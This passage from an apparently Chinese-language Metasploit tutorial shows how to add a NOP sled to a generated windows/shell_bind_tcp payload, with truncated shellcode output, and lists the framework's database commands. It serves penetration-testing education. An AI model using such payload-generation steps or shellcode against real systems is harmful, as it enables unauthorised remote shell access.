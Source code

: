 
##### 使用 NOP Sled 生成攻击载荷

NOP指空操作或下一个操作，NOP Sled可以使用参数 ```-s NOP次数``` 加入。每个NOP占用1个字节。

例如不加NOP指令的载荷是：

```shell
msf  payload(shell_bind_tcp) > generate
# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
...snip...
```

加了nop指令的载荷是：

```shell
msf  payload(shell_bind_tcp) > generate -s 14
# windows/shell_bind_tcp - 355 bytes
# http://www.metasploit.com
# NOP gen: x86/opty2
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xb9\xd5\x15\x9f\x90\x04\xf8\x96\x24\x34\x1c\x98\x14\x4a" +
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
...snip...
```



### 2.5 Metasploit 的数据库

执行渗透测试时，经常会跟踪目标，收集信息。使用一个数据库来存储信息将非常有用并节省时间。Metasploit 内建支持 PostgreSQL 数据库系统。

使用 ```help database``` 命令，可以查看命令列表：

```shell
msf > help database

Database Backend Commands
=========================

    Command           Description
    -------           -----------
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces

msf > hosts

```